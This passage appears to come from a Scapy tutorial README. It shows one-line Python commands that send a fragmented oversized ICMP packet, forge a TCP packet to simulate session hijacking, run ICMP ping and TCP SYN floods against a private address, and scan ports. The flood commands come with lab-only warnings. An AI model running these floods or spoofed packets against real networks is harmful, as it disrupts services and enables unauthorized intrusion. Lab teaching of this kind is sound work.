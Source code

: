 ```python
>>> frags = fragment(IP(dst="target")/ICMP()/("X"*60000))
```

### Simulated Session Hijacking

Crafts a fake TCP packet to simulate hijacking.

```python
>>> hijack = IP(src="client", dst="server")/TCP(sport=1234, dport=80, seq=1000, ack=5000)/"POST / HTTP/1.1\r\nHost: server\r\n\r\n"
```

---

## ⚠️ DoS Attack Examples (For Educational Use Only!)

### ICMP Ping Flood

Sends a large number of pings with large payloads.

```python
>>> send(IP(dst="192.168.1.10")/ICMP()/("X"*1024), count=1000)
```
![image](https://github.com/user-attachments/assets/47458fd0-c384-4478-8926-31e73e6fec0c)


### TCP SYN Flood

Continuously sends TCP SYN packets to overwhelm the target.

```python
>>> send(IP(dst="192.168.1.10")/TCP(dport=80, flags="S"), loop=1, inter=0.01)
```![image](https://github.com/user-attachments/assets/28d38705-f0d0-48cd-b612-a00d3637c974)


> ⚠️ **Warning:** These commands are for **lab testing** only. Do not use on real networks without explicit authorization.

---

## 🤖 Ethical Automation Scripts

### Port Scanner Function

Scans ports and filters for SYN-ACK responses.

```python
def port_scan(target, ports):
    ans, unans = sr(IP(dst=target)/TCP(dport=ports, flags="S"), timeout=2)
    return ans.filter(lambda s,r: r.haslayer(TCP) and r[TCP].flags & 0x12)
```
![image](https://github.com/user-attachments/assets/cfe9f049-995e-461d-9ec6-50a68bbc463d)
